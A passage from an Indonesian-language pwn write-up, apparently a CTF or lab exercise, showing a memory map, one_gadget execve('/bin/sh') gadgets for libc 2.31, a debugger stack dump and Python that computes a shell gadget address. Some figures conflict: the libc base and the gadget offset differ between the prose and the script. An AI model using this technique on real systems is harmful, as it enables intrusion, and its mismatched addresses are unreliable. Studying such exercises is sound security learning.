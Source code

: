 ```js
0x007ffff7ffe000 0x007ffff7fff000 0x00000000000000 rw- 
0x007ffffffde000 0x007ffffffff000 0x00000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x00000000000000 --x [vsyscall]
```
Pada kasus diatas base address dari "libc" adalah "0x007ffff7db0000" dan "libc"-nya berversi 2.31

Sekarang kita akan melihat address dari "libc" yang meng-eksekusi shell menggunakan perintah
```
one_gadget /usr/lib/x86_64-linux-gnu/libc-2.31.so
0xe3b2e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b31 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b34 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

Kita akan mencari dari ketiga diatas mana perintah shell yang digunakan oleh program ini
```
tele 15
00:0000│ rsp 0x7fffffffdc08 —▸ 0x55555555539b (one_shot+314) ◂— nop    
01:0008│     0x7fffffffdc10 —▸ 0x7fffffffe111 ◂— 'SHELL=/bin/bash'
02:0010│     0x7fffffffdc18 ◂— 0x47d11d870425f400
03:0018│ rbp 0x7fffffffdc20 —▸ 0x7fffffffdc40 ◂— 0x0
04:0020│     0x7fffffffdc28 —▸ 0x5555555553df (main+45) ◂— nop    
05:0028│     0x7fffffffdc30 —▸ 0x7fffffffdd38 —▸ 0x7fffffffe0f2 ◂— '/home/wowon/Downloads/tmp/pwn1'
06:0030│     0x7fffffffdc38 ◂— 0x100000000
07:0038│     0x7fffffffdc40 ◂— 0x0
08:0040│     0x7fffffffdc48 —▸ 0x7ffff7dd40b3 (__libc_start_main+243) ◂— mov    edi, eax
09:0048│     0x7fffffffdc50 ◂— 0x100000018
0a:0050│     0x7fffffffdc58 —▸ 0x7fffffffdd38 —▸ 0x7fffffffe0f2 ◂— '/home/wowon/Downloads/tmp/pwn1'
0b:0058│     0x7fffffffdc60 ◂— 0x1f7f987a0
0c:0060│     0x7fffffffdc68 —▸ 0x5555555553b2 (main) ◂— push   rbp
0d:0068│     0x7fffffffdc70 —▸ 0x5555555553f0 (__libc_csu_init) ◂— endbr64 
0e:0070│     0x7fffffffdc78 ◂— 0xfdb4fb87feaf962f
```

```python
setvbuf_addr = 0x7ffff7dfdbe0 # from the output of the application
libc_base_debugger = 0x7ffff7d82000 # from the vmmap command
offset_setvbuf_base = setvbuf_addr - libc_base_debugger
hex(offset_setvbuf_base)
offset_one_gadget = 0xfc477
print(f"Gadget at: {libc_base_debugger + offset_one_gadget:016x}")
```
